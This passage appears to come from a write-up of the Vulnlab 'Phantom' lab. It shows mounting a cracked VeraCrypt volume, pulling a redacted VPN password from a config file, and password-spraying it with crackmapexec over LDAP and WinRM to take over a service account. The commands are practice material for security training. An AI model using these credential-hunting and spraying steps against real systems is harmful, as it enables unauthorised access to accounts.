 As you can see, we were successfully able to crack the hash for the volume and can now mount the volume. The method that we used can be seen in real-world situations, so it was nice to test out and can really get you thinking on how a person might think to create a password.

Now that we have the password, we should be able to mount the volume to a location on our local system to see its contents.

![](/images/vulnlab/phantom-vl/d.png)

As you can see, it was saved under `/media/veracrypt1`.

# Credential Hunting

Given that `veracrypt` only allocates a relatively small amount of storage to this mount (you may see a few full storage errors), we can simply copy all of the contents of this mount to a directory within our `/` filesystem. You can do so easily with `sudo cp -r * (DESIRED FILEPATH)`.

Doing some enumeration on the volume brought me to an interesting file that contained a password for a user.

```
vpn {
    sstp {
        authentication {
            local-users {
                username lstanley {
                    password "[...snip...]"
                }
            }
```

If you unzip and decompress all of the archives within the volume you mounted, this will be within `/config/archive/config.boot`. It seems that after a bit of credential hunting, we were able to retrieve the password to the `lstanley` user.

While we would assume this would be for their user, I decided to run a `crackmapexec` scan against the full user list that we have just in case it belongs to other users instead of `lstanley`.

```
└─$ crackmapexec ldap 10.10.103.169 -u full_ul.txt -p '[...snip...]' --continue-on-success
......
LDAP        10.10.103.169   389    DC               [+] phantom.vl\svc_sspr:[...snip...]
```

It seems that a successful password match was found for `svc_sspr`.

I also made sure to run this against WinRM, and it seems that this user is part of the `Remote Management Users` group.

```
└─$ crackmapexec winrm 10.10.103.169 -u svc_sspr -p '[...snip...]'
SMB         10.10.103.169   5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:phantom.vl)
HTTP        10.10.103.169   5985   DC               [*] http://10.10.103.169:5985/wsman
WINRM       10.10.103.169   5985   DC               [+] phantom.vl\svc_sspr:[...snip...] (Pwn3d!)
```
